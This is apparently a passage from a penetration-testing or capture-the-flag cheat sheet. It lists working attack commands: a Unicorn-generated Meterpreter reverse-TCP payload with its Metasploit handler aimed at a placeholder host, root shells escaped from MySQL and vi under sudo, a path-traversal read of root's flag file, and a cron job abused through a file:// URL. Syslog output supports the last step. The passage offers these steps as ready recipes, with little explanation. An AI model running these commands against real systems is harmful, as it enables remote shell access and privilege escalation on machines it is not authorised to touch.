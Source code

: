 To get Shell on Windows use [Unicorn](https://github.com/trustedsec/unicorn.git)
```
> $ /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
> $ msfconsole -r unicorn.rc 
[*] Started reverse TCP handler on <HOST_IP>:3333 
msf5 exploit(multi/handler) >         
```

#### MYSQL with Sudo Privilage

To get Shell from MYSQL
```
mysql> \! /bin/sh
```

#### VIM Editor with Sudo Privilage

To get Shell from VIM.

Method-1:
```
> $ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```
Method-2:

```
> $ sudo /usr/bin/vi /var/www/html/anyrandomFile
Type Escape and enter :!/bin/bash
```

#### Cronjob

If some system cron is getting some url present in the file, we can replace url to get flag as below.
```
> $ cat input 
url = "file:///root/root.txt"
```

To monitor cronjobs, we can tail the syslogs.
```
> $ tail -f /var/log/syslog
Nov 18 23:55:01 sun CRON[5327]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Nov 19 00:00:01 sun CRON[5626]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Nov 19 00:00:01 sun CRON[5627]: (sun) CMD (nodejs /home/sun/server.js >/dev/null 2>&1)
Nov 19 00:05:01 sun CRON[5701]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
```
